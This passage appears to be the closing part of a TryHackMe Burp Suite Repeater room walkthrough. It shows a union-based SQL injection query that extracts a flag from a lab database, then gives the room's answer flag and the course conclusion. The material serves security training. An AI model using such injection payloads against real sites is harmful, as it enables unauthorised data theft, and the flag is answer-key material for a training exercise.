 ```
Let's craft a query to extract this flag:
```
0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1
```
Hey presto, we have a flag!

![img](/assets/img/burp-repeater12.png)

---

Exploit the union SQL injection vulnerability in the site.
```
What is the flag?

Answer : THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh} 
```
![img](/assets/img/burp-repeater13.png)
---

Task 9  Conclusion
---
Congratulations on completing the Burp Suite Repeater room!

By now, you should have a solid understanding of effectively utilising Repeater to edit, manipulate, and resend requests. Additionally, you should have gained insight into the numerous practical applications of this tool.

In the next room of the module, we will explore the Burp Suite Intruder module. Intruder allows for automated and customizable attacks, making it a powerful tool for various security testing scenarios.

Good luck with the next room, and enjoy exploring the capabilities of [Burp Suite Intruder](https://tryhackme.com/room/burpsuiteintruder)!
